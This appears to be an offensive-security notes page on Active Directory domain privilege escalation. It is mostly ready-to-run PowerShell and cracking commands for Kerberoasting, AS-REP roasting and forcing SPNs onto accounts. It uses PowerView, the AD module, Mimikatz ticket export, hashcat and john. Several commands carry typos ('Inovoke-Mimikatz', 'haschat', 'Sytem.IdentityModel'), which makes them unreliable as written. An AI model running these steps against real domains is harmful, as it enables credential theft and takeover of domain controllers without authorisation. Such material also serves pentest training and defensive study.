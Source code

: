 ```yaml
---
title: Domain Privilege Escalation
category: Active Directory
order: 4
---
```


Lets talk about some attacks to carry out a domain privilege escalation in order to obtain a Domain Controller.

# Kerberoasting

The Kerberos session ticket as known as `TGS` has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.

> **Note**: Service accounts are many times ignored. Password are rarely changed and have privileged access.


## Getting the TGS

First of all we need to find which users are used as *Service Accounts*:

* PowerView:
```powershell
Get-NetUser -SPN
```
* AD Module:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

After enum it, we need to request a TGS:

* PowerView:
```powershell
Request-SPNTicket
```

* AD Module:
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/mgmt-user.corp.local"
```

> **Note**: With `klist` you can check if the TGS has been granted.

Finally all tickets should be exported.

```powershell
Inovoke-Mimikatz -Command '"kerberos::list /export"'
```

## Cracking the tickets

Once the tickets are exported it can be cracked with `john`, `hashcat` or `tgsrepcrack.py` tool:

```
python.exe .\tgsrepcrack.py wordlist.txt ticket.kirbi
```
To crack the ticket with hascat exists a script to export it to a hashcat format.

* https://github.com/jarilaos/kirbi2hashcat

```
haschat -a 0 -m 13100 wordlist.txt ticket.txt
```

# AS-REP Roasting

If a users account does not have the flag _"Do not require Kerberos pre-authentication"_ in _UserAccountControl_ settings which means kerberos preauth is disabled, it is possible to grab users AS-REP and brute-force it offline.

## Users with No-Preauth set

We need to enumerate accounts with Kerberos Preauth disabled:

* PowerView:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

* AD Module:
```powershell
Get-ADUser -Filter {DoesNotRequiredPreAuth -eq $True} -Properties DoesNotRequiredPreAuth
```

> **Note**: With `GenericAll` or `GenericWrite`, kerberos preauth can be disabled.
> 
> `Set-DomainObject -Identity user01 -XOR @{useraccountcontrol=4194304} -Verbose`

## Cracking the tickets

We can request an encrypted AS-REP for offline brute-force. To do that task we can use `ASREPRoast` module:

```powershell
Import-Module ASREPRoast.ps1
Get-ASREPHash -UserName user01 -Verbose
```
After getting the ticket we can crack it with `john` or `hashcat`:

```
john user01.ticket --wordlist=wordlist.txt
hashcat -a 0 -m 18200 user01.ticket wordlist.txt
```

# Set SPN

With enough privileges such as `GenericAll` or `GenericWrite`, a target user's SPN can be set to anything which is unique in the domain. We can then request a TGS without special privileges and the TGS can be kerberoasted.

We can enumerate the permissions for a group on ACLs:

* PowerView (dev):
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

We can also see if a user already has a SPN:

* PowerView (dev):
```powershell
Get-DomainUser -Identity user01 | select serviceprincipalname
```
* AD Module:
```powershell
Get-ADUser -Identity user01 -Properties ServicePrincipalName | select ServicePrincipalName
```

And we can force the SPN to a user:

* PowerView (dev):
```powershell
Set-DomainObject -Identity user01 -Set @{serviceprincipalname='ops/whatever01'}
```

* AD Module:
```powershell
Set-ADUser -Identity user01 -ServicePrincipalNames @{Add='ops/whatever01'}
```

Once we have a SPN set, we can request a TGS:

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object Sytem.IdentityModel.Token.KerberosRequestorSecurityToken -ArgumentList "ops/whatever01"
```
And we can export the tickets to the disk:

```powershell
Inovoke-Mimikatz -Command '"kerberos::list /export"'
```
And finally same as *Kerberoasting*, you can crack the ticket with `tgsrepcrack.py`.